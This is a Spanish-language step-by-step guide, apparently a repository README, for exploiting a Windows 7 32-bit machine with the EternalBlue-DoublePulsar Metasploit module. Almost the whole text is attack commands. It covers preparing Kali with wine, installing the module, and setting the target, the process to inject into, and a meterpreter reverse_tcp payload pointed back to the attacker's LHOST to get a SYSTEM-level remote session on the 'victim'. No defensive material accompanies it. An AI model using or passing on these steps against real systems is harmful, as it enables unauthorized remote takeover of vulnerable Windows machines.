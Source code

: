 #Guía práctica para explotación de Eternalblue-DoublePulsar sobre Windows 7 - i386 

##Procedimiento

##Preparación de entorno
Se debe instalar el programa wine y agregar la arquitectura de 32bits al sistema, para esto ejecutaremos los pasos siguientes:

- root@kali:~#  apt-get install wine -y
- root@kali:~#  apt-get install winetricks -y
- root@kali:~#  dpkg –add-architecture i386 && apt-get update && apt-get install wine32 -y
##1) Instalación del módulo en Metasploit
- Clonar el repositorio de Eternalblue-DoublePulsar 
- root@kali:~#  git clone https://github.com/ElevenPaths/Eternalblue-Doublepulsar-Metasploit
- root@kali:~#  cd Eternalblue-Doublepulsar-Metasploit/
- Copiar el archivo eternalblue_doublepulsar.rb a la siguiente dirección: /usr/share/metasploit-framework/modules/exploits/windows/smb/
- Crear la estructura de directorios ‘/root/shadowbroker/windows/lib/x86-Windows/’ y copiar la carpeta deps en  ‘/root/shadowbroker/windows/lib/x86-Windows/’
- Abrir una terminal y tipear el comando winecfg para que se cree la carpeta /root/.wine/drive_c/
##2) Explotación    
- Abrir una terminal y iniciar metasploit con el comando msfconsole
- Llamamos al exploit con el path exploit/windows/smb/eternalblue_doublepulsar
  - msf5 > use exploit    
- vemos las opciones disponibles 
  - msf5 > show options
- Ingresamos la IP y el puerto (por defecto 445) del objetivo
  - msf5 > set RHOST (IP víctima)
- Seleccionamos el sistema objetivo
  - msf5 > show targets
  - msf5 > set target 8
- Seleccionamos el proceso en cual se va a inyectar el payload, es muy importante tener en cuenta que tipo de arquitectura se va a atacar, por defecto el proceso a inyectar es wlms.exe, esto funciona con equipos de 32 bits, si nuestra víctima utiliza un sistema de 64bits se debe cambiar de proceso a lsas.exe, de lo contrario el exploit fallará.
  - msf5 > set PROCESSINJECT wlms.exe    (si es de 32bits)
  - msf5 > set PROCESSINJECT lsas.exe        (si es de 64bits)
- Seleccionamos la arquitectura del sistema que vamos a atacar (x32 o x64) en nuestro caso 32 bits
  - msf5 > set TARGETARCHITECTURE x32
- Seleccionamos el payload, en nuestro caso un meterpreter, y lo configuramos 
  - msf5 > set PAYLOAD windows/meterpreter/reverse_tcp
  - msf5 > set LHOST (IP atacante)
- Revisamos una última vez que estén correctamente configurados todos los parámetros
  - msf5 > show options
- Finalmente usamos el comando exploit y obtendremos una sesión remota de meterpreter con privilegios de System en la máquina víctima

## Materiales y recursos
1- Máquina atacante con Kali Linux y Metasploit
2- Exploit Eternalblue-DoublePulsar (https://github.com/ElevenPaths/Eternalblue-Doublepulsar-Metasploit)
3- Máquina víctima, Windows 7 con arquitectura de 32bits 
